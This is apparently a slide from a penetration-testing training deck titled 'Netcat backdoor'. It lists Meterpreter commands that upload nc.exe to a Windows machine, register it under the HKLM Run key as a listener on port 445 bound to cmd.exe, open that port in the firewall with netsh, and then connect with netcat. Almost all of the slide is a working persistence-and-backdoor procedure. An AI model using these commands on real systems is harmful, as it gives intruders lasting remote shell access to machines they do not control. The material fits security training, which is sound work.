

# Netcat backdoor
For a Windows persistent nc backdoor
in meterpreter:
Upload /pentest/windows-binaries/tools/nc.exe C:\\Windows\System32
Reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
Reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d ‘C;\windows\system32\nc.exe -Ldpn 445 -e cmd.exe’
Reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
Execute -f cmd -i
Netsh firewall show opmode
Netsh firewall add portopening TCP 445 “Service Firewall” ENABLE ALL
Netsh firewall show portopening
Now use netcat to connect to the target with port 445